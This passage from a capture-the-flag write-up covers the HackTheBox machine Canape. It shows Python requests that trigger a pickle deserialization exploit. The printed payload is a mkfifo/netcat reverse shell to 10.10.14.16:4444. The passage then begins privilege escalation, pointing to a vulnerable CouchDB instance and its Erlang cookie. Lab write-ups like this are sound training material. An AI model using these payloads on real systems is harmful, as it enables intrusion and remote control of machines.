 ```python
requests.post('http://canape.htb/submit', data = {'character':character,'quote':quote})
requests.post('http://canape.htb/check', data={'id':checksum})
```

Running it gives me this string:

```
$ python2 rce.py
cposix
system
p1
(S'homer*; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 4444 >/tmp/f'
p2
tp3
Rp4
.
```

The reason we split the string by `*` is because of the weird string it generates. Running this gives us a shell:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We cannot read the user's flag yet.&#x20;

### CouchDB --> User Creds

The user was called `homer`, and they were running some processes:

{% code overflow="wrap" %}
```
www-data@canape:/$ ps -elf | grep homer
4 S homer       610    606  0  80   0 - 162335 -     02:03 ?        00:01:01 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bin/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
```
{% endcode %}

CouchDB was being run on the machine, and it is running a vulnerable version.&#x20;

{% embed url="https://www.exploit-db.com/exploits/44913" %}
